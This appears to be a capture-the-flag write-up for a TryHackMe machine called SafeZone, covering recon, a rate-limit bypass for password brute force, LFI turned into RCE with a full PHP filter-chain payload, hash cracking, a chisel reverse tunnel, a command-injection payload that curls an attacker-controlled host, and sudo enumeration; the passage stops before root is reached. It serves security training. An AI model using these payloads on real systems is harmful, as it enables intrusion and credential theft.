## TL;DR

In this challenge we start with brute forcing the admin's password while bypassing rate limit. Then, we exploit `LFi` to get `RCE` and shell as `www-data`.
We move to user `files` using hash we found inside mysterious file, and then moving to user `yash` using os command injection found inside internal service.

Lastly, we escalate to root using `sudo` on `/root/bk.py`, which simply let us copy files as root.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh and port `80` with apache http server.
```bash
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 62 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 30:6a:cd:1b:0c:69:a1:3b:6c:52:f1:22:93:e0:ad:16 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDIZwg1Xg+/teSBsAyVem1Ovp/oFv0mR+IX+4/qdmqRNPhah+L7o7OJvxd9wKXci4wKKybo403rgpj9hTpAKC3JkYM9q/7p0fMcmf/gHTZ
IkPV/kC2Lk9RRNyYKPBTGgkyHQI5fBbbxLAIqLfScgIU3O+4EAi2DIVohjToPrrSlRF5BYgb/SGeQ0PF7xlkHLKQJb7jMAWztiCsemGP+6FSCJlw0DHHry8L41pxAaDOSGHkbIGQBZtumflUE
BuyDE86aWEKJmTuMHrUAbxdwq4NEisQeGuy2Dp56U0dHk1r3gT600LDeJbgfwPX9QJjvR69+/wnFXPrscHxw1avI3tS3
|   256 84:f4:df:87:3a:ed:f2:d6:3f:50:39:60:13:40:1f:4c (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBDd+Ow7P3VaJCNTcFZ8VJrva7Qb5nXQwjfA4E1dZ5z2bB0nvMYS8q7stBc6G/hbIRBhtCDH
O/VoF+J3Mgv+n7xQ=
|   256 9c:1e:af:c8:8f:03:4f:8f:40:d5:48:04:6b:43:f5:c4 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIMWsHWoXXYB4phx5IY+yiW0K8aNHbCOzAPWtMB9K4KKJ
80/tcp open  http    syn-ack ttl 62 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Whoami?
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I added `safezone.thm` to my `/etc/hosts`

### Brute force password of admin and then exploit LFI to get RCE and shell as www-data

I started with fuzzing:
```bash
┌──(agonen㉿kali)-[~/thm/SafeZone]
└─$ ffuf -u 'http://safezone.thm/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .php,.txt,.xml -fc 403                   

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://safezone.thm/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .php .txt .xml 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

dashboard.php           [Status: 302, Size: 922, Words: 94, Lines: 58, Duration: 161ms]
detail.php              [Status: 302, Size: 1103, Words: 99, Lines: 118, Duration: 161ms]
index.php               [Status: 200, Size: 2372, Words: 706, Lines: 47, Duration: 153ms]
index.html              [Status: 200, Size: 503, Words: 139, Lines: 24, Duration: 152ms]
index.php               [Status: 200, Size: 2372, Words: 706, Lines: 47, Duration: 158ms]
logout.php              [Status: 200, Size: 54, Words: 1, Lines: 3, Duration: 154ms]
news.php                [Status: 302, Size: 922, Words: 94, Lines: 58, Duration: 157ms]
note.txt                [Status: 200, Size: 121, Words: 20, Lines: 4, Duration: 155ms]
register.php            [Status: 200, Size: 2334, Words: 701, Lines: 46, Duration: 160ms]
:: Progress: [19000/19000] :: Job [1/1] :: 252 req/sec :: Duration: [0:01:19] :: Errors: 0 ::
```

we can see common login portal:



I created user at `/register.php` and logged in, but nothing too intersting popped up.

Let's move to `note.txt`:
```bash
┌──(agonen㉿kali)-[~/thm/SafeZone]
└─$ curl http://safezone.thm/note.txt                                                            
Message from admin :-

                I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```

Okay, the password for user `admin` is saved at `/home/files/pass.txt`.
I tried to get `pass.txt`, or `files/pass.txt`, but I nothing works.

Then, I found this [https://httpd.apache.org/docs/trunk/urlmapping.html#user](https://httpd.apache.org/docs/trunk/urlmapping.html#user)
> Traditionally on Unix systems, the home directory of a particular user can be referred to as ~user/. The module mod_userdir extends this idea to the web by allowing files under each user's home directory to be accessed using URLs such as the following.

`http://www.example.com/~user/file.html`

Let's try to access it:
```bash
┌──(agonen㉿kali)-[~/thm/SafeZone]
└─$ curl http://safezone.thm/~files/pass.txt
Admin password hint :-

                admin__admin

                                " __ means two numbers are there , this hint is enough I think :) "
```

Okay, we got the password hint, the format is `admin__admin`. We can easily brute force this, however, we have rate limit of 3 login fails per minute.

That's where I thought on a trick. I tried to insert invalid data, and then login using the username `a` and password `a` which I created, and then trying to login again with invalid credentials. It resets the rate-limiter!

So, I wrote this python script to bypass the rate limit, by reseting the rate limit after each trying.

```py

```

This works, we find the password `admin44admin`



After login as `admin`, I went to `/detail.php` and found in the comments of the source to trying using `page` get parameter



So, I tried with this URL:
```bash
http://safezone.thm/detail.php?page=file:///etc/passwd
```

and got `LFI`:



Now, we got two diffenet ways to get `RCE`. The intendted way is probably log posining, like shown here [https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning](https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/logs-poisoning).

Another way is to use php filter chain from here [https://github.com/synacktiv/php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator).

We can generate the payload:
```bash
┌──(agonen㉿kali)-[~/thm/SafeZone/php_filter_chain_generator]
└─$ python php_filter_chain_generator.py --chain '<?php echo `$_GET[0]` ?>'
[+] The following gadget chain will generate the following code : <?php echo `$_GET[0]` ?> (base64 value: PD9waHAgZWNobyBgJF9HRVRbMF1gID8+)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.UTF8.UTF16|convert.iconv.WINDOWS-1258.UTF32LE|convert.iconv.ISIRI3342.ISO-IR-157|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO2022KR.UTF16|convert.iconv.L6.UCS2|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.BIG5.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.ISO88597.UTF16|convert.iconv.RK1048.UCS-4LE|convert.iconv.UTF32.CP1167|convert.iconv.CP9066.CSUCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.iconv.UTF16BE.866|convert.iconv.MACUKRAINIAN.WCHAR_T|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP861.UTF-16|convert.iconv.L4.GB13000|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.851.UTF-16|convert.iconv.L1.T.618BIT|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-2.OSF00030010|convert.iconv.CSIBM1008.UTF32BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.JS.UNICODE|convert.iconv.L4.UCS2|convert.iconv.UCS-4LE.OSF05010001|convert.iconv.IBM912.UTF-16LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP869.UTF-32|convert.iconv.MACUK.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.BIG5HKSCS.UTF16|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM921.NAPLPS|convert.iconv.855.CP936|convert.iconv.IBM-932.UTF-8|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF16|convert.iconv.ISO6937.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP1046.UTF32|convert.iconv.L6.UCS-2|convert.iconv.UTF-16LE.T.61-8BIT|convert.iconv.865.UCS-4LE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.MAC.UTF16|convert.iconv.L8.UTF16BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CSIBM1161.UNICODE|convert.iconv.ISO-IR-156.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.IBM932.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.SE2.UTF-16|convert.iconv.CSIBM1161.IBM-932|convert.iconv.MS932.MS936|convert.iconv.BIG5.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp
```

Then, we'll take it and add `&0=cmd`, and get whatever we want to execute.



let's paste the penelope payload:



### Move to user files using hash found and cracked

I went to `/home/files` and found a strange file
```bash
www-data@safezone:/home/files$ cat .something#fake_can\@be\^here 
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```

Looks like some sort of hash, let's crack it with `john`.
```bash
┌──(agonen㉿kali)-[~/thm/SafeZone]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
magic            (?)     
1g 0:00:00:01 DONE (2026-01-19 16:59) 0.7874g/s 2217p/s 2217c/s 2217C/s hassan..melina
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now, we have the credentials for `files`:
```bash
files:magic
```



### Move to user yash using os command injection found on internal service

I check for open ports, we can see there is something in port `8000`, using `ss -tl`



I checked this using curl. It is nginx web server
```bash
files@safezone:~$ curl http://127.0.0.1:8000/
<html>
<head><title>403 Forbidden</title></head>
<body bgcolor="white">
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx/1.14.0 (Ubuntu)</center>
</body>
</html>
```

Let's upload `chisel` and set up port tunneling. On the local machine:
* chisel server --reverse -p 1234
on the remote machine

* ./chisel client 192.168.138.59:1234 R:9000:127.0.0.1:8000



Now, we can fuzz this server using `ffuf`:
```bash
┌──(agonen㉿kali)-[~/thm/SafeZone]
└─$ ffuf -u 'http://localhost:9000/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/common.txt -e .html,.php,.txt -fc 403

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://localhost:9000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/common.txt
 :: Extensions       : .html .php .txt 
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
________________________________________________

login.html              [Status: 200, Size: 462, Words: 21, Lines: 19, Duration: 243ms]
:: Progress: [19000/19000] :: Job [1/1] :: 211 req/sec :: Duration: [0:01:29] :: Errors: 0 ::
```

I went to `http://localhost:9000/login.html`, we can see some login portal



I checked the source code, we can see the file `login.js`:



This is the file `login.js`:
```js
var attempt = 3;
function validate(){
var username = document.getElementById("username").value;
var password = document.getElementById("password").value;
if ( username == "user" && password == "pass"){
alert ("Login successfully");
window.location = "pentest.php";
return false;
}
else{
attempt --;
alert("You have left "+attempt+" attempt;");
// Disabling fields after 3 attempts.
if( attempt == 0){
document.getElementById("username").disabled = true;
document.getElementById("password").disabled = true;
document.getElementById("submit").disabled = true;
return false;
}
}
}
```

It contains raw credentials, in this case `user:pass`. Anyway, we can directly go to `/pentest.php`.


Since it says message for `yash`, I suspect there is possible `OS Command Injection`. I tried my luck with the payload:
```bash
msg=hello%0acurl+http://192.168.138.59:8081/a
```
It worked. I got request for the resource a.



Now, let's put the penelope payload inside `rev_shell.sh` and pipe it into sh.



we can grab the user flag:
```bash
yash@safezone:~$ cat flag.txt 
THM{c296539f3286a899d8b3f6632fd62274}
```

### Privilege Escalation to Root using sudo on copy script

First I checked for sudo permissions
```bash
yash@safezone:/tmp$ sudo -l
Matching Defaults entries for yash on safezone:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User yash may run the following commands on safezone:
    (root) NOPASSWD: /usr/bin/python3 /root/bk.py
```

we can execute this `bak.py` as root.
I tried to execute this, it looks like it copy files. It asks for password, but I'm not sure what it is used for.

